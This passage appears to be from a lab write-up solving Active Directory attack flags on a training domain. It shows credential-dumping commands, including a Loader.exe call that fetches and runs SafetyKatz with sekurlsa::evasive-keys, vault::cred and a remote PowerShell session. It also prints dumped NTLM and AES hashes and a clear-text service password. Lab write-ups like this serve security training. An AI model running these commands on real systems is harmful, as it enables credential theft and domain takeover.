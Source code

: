 ```powershell
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```

### Flag 12 \[dcorp-adminsrv] - We tried to extract clear-text credentials for scheduled tasks from? Flag value is like lsass, registry, credential vault etc 🚩

Remembering that we already know credentials for svcadmin user using Safetykatz, we can start a session as adminsrv

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv
```

and trying to execute: `vault::cred` and `vault::list` , we discover that the answer is regards credential vault.

### Flag 13 \[dcorp-adminsrv] - NTLM hash of srvadmin extracted from dcorp-adminsrv 🚩

We already know credentials exacted using Safetykatz: `C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`

```powershell
Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728
```

### Flag 14 \[dcorp-adminsrv] - NTLM hash of websvc extracted from dcorp-adminsrv 🚩

Here below the websvc's ntlm hash:

```powershell
Authentication Id : 0 ; 138873 (00000000:00021e79)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114

         * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
         * Key List :
```